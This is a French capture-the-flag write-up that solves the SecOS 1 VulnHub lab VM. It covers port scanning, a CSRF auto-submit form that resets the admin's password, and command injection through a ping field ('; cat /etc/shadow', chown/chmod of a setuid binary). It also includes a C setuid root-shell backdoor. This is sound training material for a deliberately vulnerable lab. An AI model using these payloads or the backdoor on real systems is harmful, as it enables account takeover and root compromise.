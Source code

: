 # Solution du CTF SecOS 1

Nitro
-----

Le challenge [SecOS premier du nom](http://vulnhub.com/entry/secos-1,88/) se présente comme un boot2root (c'est à dire qu'il faut récupérer l'accès root) web-based.  

La VM peut se monter depuis *VirtualBox*, c'est une *Ubuntu* 32 bits. Il faut créer une nouvelle VM et sélectionner le fichier existant comme disque virtuel.  

One time
--------

Deux ports sont ouverts : un SSH ainsi qu'un serveur web servi par Node.js.  

```plain
Starting Nmap 6.46 ( http://nmap.org ) at 2014-05-24 12:08 CEST
Nmap scan report for 192.168.1.20
Host is up (0.00023s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:d9:32:f5:1d:19:88:d3:e7:af:f0:4e:21:76:7a:c8 (DSA)
|   2048 90:b0:3d:99:ed:5b:1b:e1:d4:e6:b5:dd:e9:70:89:f5 (RSA)
|_  256 78:2a:d9:e3:63:83:24:dc:2a:d4:f6:4a:ac:2c:70:5a (ECDSA)
8081/tcp open  http    Node.js (Express middleware)
|_http-title: Secure Web App
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at http://www.insecure.org/cgi-bin/servicefp-submit.cgi :
SF-Port22-TCP:V=6.46%I=7%D=5/24%Time=53806FA6%P=x86_64-suse-linux-gnu%r(NU
SF:LL,27,"SSH-2\.0-OpenSSH_6\.6p1\x20Ubuntu-2ubuntu1\r\n");
MAC Address: 08:00:27:2E:F6:F7 (Cadmus Computer Systems)
No exact OS matches for host (If you know what OS is running on it, see http://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=6.46%E=4%D=5/24%OT=22%CT=1%CU=43345%PV=Y%DS=1%DC=D%G=Y%M=080027%T
OS:M=53806FB2%P=x86_64-suse-linux-gnu)SEQ(SP=FF%GCD=3%ISR=105%TI=Z%CI=I%II=
OS:I%TS=8)OPS(O1=M5B4ST11NW6%O2=M5B4ST11NW6%O3=M5B4NNT11NW6%O4=M5B4ST11NW6%
OS:O5=M5B4ST11NW6%O6=M5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W
OS:6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5B4NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=
OS:O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD
OS:=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0
OS:%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI
OS:=N%T=40%CD=S)
```

Le site web utilise *Bootstrap* pour le JS et CSS donc on a l'impression de déjà connaître le site avant l'avoir visité :p   

Je lance [Wapiti](http://wapiti.sourceforge.net/) qui ne trouve rien d'intéressant.  

Le site dispose d'une zone privée pour les utilisateurs connectés depuis laquelle ils peuvent s'échanger des messages. Malheureusement, après création d'un utilisateur *toto*, toujours pas de faille à l'horizon.  

Une page liste les utilisateurs enregistrés, voici un extrait :  

![Utilisateurs enregistrés](https://raw.githubusercontent.com/devl00p/blog/master/images/secos_users.png)

Je lance [dirb](http://dirb.sourceforge.net/) qui me trouve une page */hint* dans laquelle on trouve en code source :  

```html
      <div class="jumbotron">
        <p><i>Are you sure there's something to see here?</i></p>
        <!--
        First: the admin visits the website (really) frequently
        Second: He runs it locally, on 127.0.0.1. 
        Third: CSRF and /(http:\/\/[-\/\.\w:0-9\?&]+)/gi, I think that's enough
        !-->
      </div>
```

Effectivement il n'y a pas de token anti-CSRF. D'après l'expression régulière on devine que le simple fait de poster une URL provoquera une requête depuis le compte *spiderman* (l'administrateur).  

On créé la page index.html suivante avec formulaire auto-submit que l'on livre avec *SimpleHTTPServer* :  

```html
<html>
<body>
<form action="http://127.0.0.1:8081/change-password" method="POST" id="inject">
    <input type="hidden" name="username" value="spiderman" />
    <input type="hidden" name="password" value="hacked" />
</form>
<script language="Javascript">
    document.getElementById("inject").submit();
</script>
</body>
<html>
```

On envoie ensuite un message à *spiderman* avec l'URL de notre serveur. On voit rapidement apparaître une requête dans les logs, ça a fonctionné :)  

```plain
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.1.20 - - [24/May/2014 17:21:14] "GET / HTTP/1.1" 200 -
```

On se connecte alors avec l'utilisateur *spiderman* et le mot de passe *hacked* sur la webapp. Direction les messages privés...  

![spiderman private messages](https://raw.githubusercontent.com/devl00p/blog/master/images/secos_spiderman_msg.png)

Visiblement pirate a fait le travail pour nous :) Il ne reste qu'à se connecter en SSH sur la machine avec *spiderman* et *CrazyPassword!* :  

```plain
Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.13.0-24-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sat May 24 12:07:20 CEST 2014

  System load: 1.04              Memory usage: 8%   Processes:       78
  Usage of /:  23.3% of 6.50GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Wed May  7 18:19:57 2014 from 192.168.56.1
spiderman@SecOS-1:~$ 
```

Two time
--------

Avec un *pstree -a* on voit que deux Nodes.js tournent dont l'un en root :  

```plain
  ├─sudo -u spiderman sh -c /usr/local/bin/node /home/spiderman/vnwa/server.js
  │   └─sh -c /usr/local/bin/node /home/spiderman/vnwa/server.js
  │       └─node /home/spiderman/vnwa/server.js
  │           └─5*[{node}]
  ├─sudo -u root sh -c /usr/local/bin/node /home/spiderman/vnwa/internalServer.js
  │   └─sh -c /usr/local/bin/node /home/spiderman/vnwa/internalServer.js
  │       └─node /home/spiderman/vnwa/internalServer.js
  │           └─5*[{node}]
```

Il y a deux infos intéressantes dans *internalServer.js* : d'abord il écoute sur le port 9000 (mais sur le loopback) et ensuite il semble y avoir une faille d'injection de commande.  

```js
app.post('/', function (req, res) {
    ip = req.body.ip
    if (ip == "") {
        utils.redirect(req, res, '/ping-status');
    } else {
        // getting the command with req.params.command
        var child;
        // console.log(req.params.command);
        child = exec('ping ' + ip, function (error, stdout, stderr) {
            res.render('ping.ejs', {
                isConnected: req.session.isConnected,
                message: stdout,
                isAdmin: req.session.isAdmin
            });
        });
    }
});

server.listen(9000, '127.0.0.1', function() {
  console.log("Listening on port 9000");
});
```

On créé un tunnel SSH afin de rediriger notre port 8888 local vers le port interne 9000 de la VM :  

```bash
ssh -L 8888:127.0.0.1:9000 spiderman@192.168.1.20
```

La page contient un champ de formulaire qui est en effet vulnérable : si on rentre *;cat /etc/shaddow* ont voit les hashs des utilisateurs (sha512, inutile de perdre du temps là dessus).  

On écrit une petite backdoor setuid que l'on compile :  

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```

Il n'y a plus qu'à injecter *;chown root:root /tmp/gotroot;chmod 4755 /tmp/gotroot* comme adresse IP.  

![injection de commande dans le formulaire ping](https://raw.githubusercontent.com/devl00p/blog/master/images/secos_ping.png)

On lance la backdoor qui nous donne les bons droits...  

```plain
root@SecOS-1:/root# cat flag.txt 
Hey,

Congrats, you did it ! 

The flag for this first (VM) is: MickeyMustNotDie.
Keep this flag because it will be needed for the next VM.

If you liked the Web application, the code is available on Github. 
(https://github.com/PaulSec/VNWA)

There should be more VMs to come in the next few weeks/months.

Twitter: @PaulWebSec
GitHub : PaulSec
```

Done !

*Published May 24 2014 at 17:27*